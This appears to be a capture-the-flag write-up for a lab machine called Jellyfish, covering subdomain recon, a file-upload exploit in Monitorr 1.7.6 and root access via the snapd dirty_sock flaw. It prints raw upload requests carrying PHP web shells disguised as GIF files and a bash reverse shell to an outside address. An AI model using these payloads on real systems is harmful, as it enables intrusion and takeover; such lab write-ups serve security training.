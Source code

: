 # Jellyfish

## Reconn


robyns-petshop.thm

monitorr.robyns-petshop.thm

beta.robyns-petshop.thm

dev.robyns-petshop.thm


Looking for searchsploit Monitor 1.7.6 found exploit

https://www.exploit-db.com/exploits/48980

## Payloads
```
POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 274

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=she_ll.gif.phtml
Content-Type: image/gif

GIF89a213213123<?php system($_GET["c"]);?>
-----------------------------31046105003900160576454225745--




POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 274

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=she_ll5.gif.phtml
Content-Type: image/gif

GIF89a213213123<?php
{php-reverse-shell.php pentestmonkey}
?> 
-----------------------------31046105003900160576454225745--



view-source:https://monitorr.robyns-petshop.thm/assets/data/usrimg/she_ll5.gif.phtml?c=ls%20-al%20/opt/ssh-honeypot

cat /opt/ssh-honeypot/README.md
```

# FINAL PAYLOAD 
```
POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 320

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=reverse.gif.pHp
Content-Type: image/gif

GIF89a213213123


<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.9.124/443 0>&1'");?> 
-----------------------------31046105003900160576454225745--

```
# First Access

after running Linpeas.sh in SGID section found snapd with suid
check verson snapd
: snapd --version
2.32.5

: searchsploit snapd 2.32.5
found CVE 2019-7304 
dirty_sock.py

upload exploit on target

running dirty_sock
******
user:dirty_sock
pass:dirty_sock
******

: su dirty_sock

: sudo su

root#>
